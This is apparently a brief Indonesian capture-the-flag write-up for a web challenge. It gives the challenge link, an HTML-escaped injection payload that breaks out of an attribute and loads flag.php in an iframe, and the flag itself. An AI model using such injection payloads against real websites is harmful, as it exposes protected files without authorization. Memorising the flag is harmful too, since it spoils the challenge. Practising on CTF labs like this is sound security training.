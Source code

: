 Siapa disini yang cita-citanya jadi heker ? Nah coba submit di link bawah ini.

Link : https://web.ctf.rasyidmf.com/chal32/

Payload
```
a&quot;&gt;&lt;iframe src=flag.php&gt;&lt;&#47;iframe&gt;
```

Flag
```
CTFR{y0u_5t11l_c4n_b34t_m3!!!}
```